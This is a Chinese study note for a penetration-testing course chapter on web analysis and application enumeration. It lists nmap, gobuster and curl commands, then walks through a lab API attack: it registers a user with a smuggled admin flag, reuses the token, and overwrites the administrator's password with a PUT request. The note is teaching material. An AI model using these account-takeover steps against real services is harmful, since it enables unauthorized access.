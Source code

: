 本篇对应教材第8章，主要内容“WEB分析工具”和“WEB应用枚举”，记录使用工具和命令

## 8.2 Web分析工具

### 8.2.1 web服务指纹

nmap扫描web服务

```python
sudo nmap -p80  -sV 192.168.50.20
```

http枚举

```python
sudo nmap -p80 --script=http-enum 192.168.50.20
```

### 8.2.2 Wappalyzer

网站

```python
https://www.wappalyzer.com/
```

### 8.2.3 目录枚举

```python
gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t 5
```

### 8.2.4 Burp

图形界面操作

## 8.3 Web应用枚举

### 8.3.2 http头和sitemaps枚举

```python
curl https://www.google.com/robots.txt
```

### 8.3.3 API枚举

```python
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern

curl -i http://192.168.50.16:5002/users/v1

gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
curl -i http://192.168.50.16:5002/users/v1/admin/password
可能返回错误，一般需要post或者put，前提是要先登录成功
curl -i http://192.168.50.16:5002/users/v1/login
提示用户错误，尝试admin用户
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
提示密码不对，注册新用户
curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register
提示需要email，增加email参数再注册
curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register
注册成功，登录
curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
登录成功，获得token后，尝试修改admin密码
curl  \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
  -d '{"password": "pwned"}'
方法不允许，尝试put
curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
修改成功，登录admin
curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

```

更多更新资料（微信公众号：TopRedTeam）

![](./qrcode.jpg)
